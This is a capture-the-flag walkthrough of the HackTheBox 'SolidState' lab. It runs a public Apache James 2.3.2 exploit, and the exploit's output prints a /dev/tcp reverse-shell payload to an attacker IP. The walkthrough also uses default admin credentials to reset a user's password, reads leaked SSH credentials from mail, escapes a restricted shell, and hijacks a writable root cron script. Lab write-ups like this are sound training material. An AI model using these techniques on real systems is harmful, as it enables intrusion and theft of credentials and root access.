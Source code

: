 # SolidState
SolidState is a medium HTB lab that focuses on mail clients vulnerability, sensitive information disclosure and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Reconnaissance
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.8.102

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-27 19:22 GMT
Stats: 0:01:53 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 19:26 (0:02:34 remaining)
Nmap scan report for 10.129.8.102
Host is up (0.086s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3?
119/tcp  open  nntp?
4555/tcp open  rsip?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 413.05 seconds
```

Found new email id `webadmin@solid-state-security.com` but that domain doesn't give any additional information.

From the nmap scan, we can see that the target machine is running ssh service on port 22, a web server on port 80, 110 for pop3 server and 119 nntp server. After some digging around, finally found the next to check out the port 110 and port 119.

```
$ telnet 10.129.8.102 110

+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 

```
$ telnet 10.129.8.102 119`.

Trying 10.129.8.102...
Connected to 10.129.8.102.
Escape character is '^]'.
list
200 solidstate NNTP Service Ready, posting permitted
215 list of newsgroups follows
org.apache.james.dev 0 0 y
org.apache.avalon.dev 0 0 y
org.apache.avalon.user 0 0 y
org.apache.james.user 0 0 y
```

### User

##### Web Attack

Searching online for public exploits. we can find two exploit for *JAMES POP3 Server 2.3.2* with `https://www.exploit-db.com/exploits/35513` and `https://www.exploit-db.com/exploits/50347`.
Using the exploit `50347`, to get a new user added as root for management.

```
$ python2.7 50347.py 10.129.8.102 10.10.14.119 4444

('[+]Payload Selected (see script for more options): ', '/bin/bash -i >& /dev/tcp/10.10.14.119/4444 0>&1')
('[+]Example netcat listener syntax to use after successful execution: nc -lvnp', '4444')
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).
("[+]Don't forget to start a listener on port", '4444', 'before logging in!')
```

```
$ nc 10.129.8.102 4555

JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy pass
Password for mindy reset
```

##### Reading leak credentials
Even if no one logged in during the time, we can manual check out the server based on the user added to the server. We can now log-in as the user mindy with the new password and search of any sensitive emails available.

```
$ telnet 10.129.8.102 110

Trying 10.129.8.102...
Connected to 10.129.8.102.
Escape character is '^]'.
user mindy
pass pass
list
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
+OK
+OK Welcome mindy
+OK 2 1945
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

##### Getting access as user

Based on these new credentials, we can login and get the flag.

```
$ ssh mindy@10.129.8.102
P@55W0rd1!2@

$ cat user.txt
~FLAG~
```

### Privilege Escalation

We can see that its a restricted shell. We can now look for binaries available to us.

```
mindy@solidstate:~$ cat bin/

cat  env  ls   
```

Tip for rbash Escape from https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html: 
The first thing I try when facing SSH into rbash is adding -t bash to the SSH connection command. This will run bash on connect instead of the assigned shell. It works here (though it does produce a busted prompt), and I an now run id and cd:

```
$ sshpass -p 'P@55W0rd1!2@' ssh mindy@10.129.8.102 -t bash
```
Investigating using pspy32, we can find that root is actually invoking the tmp.py file.

```
$ ./pspy32

2023/12/27 20:42:01 CMD: UID=0     PID=9545   | python /opt/tmp.py 
2023/12/27 20:42:01 CMD: UID=0     PID=9546   | sh -c rm -r /tmp/*  
```
You would find that /opt folder has some additional files which can help with escalation including the tmp.py file above. Also we have write access to this file.

```
$ ls -l /opt/

drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

Updated the code of `tmp.py` to below.

```
$ cat tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ; cat /root/root.txt >> /home/mindy/dummy.txt;')
except:
     sys.exit()
```

Now wait for the script to run again and then we can get flag using `cat ~/dummy.txt`:
```
$ cat ~/dummy.txt
~FLAG~
```
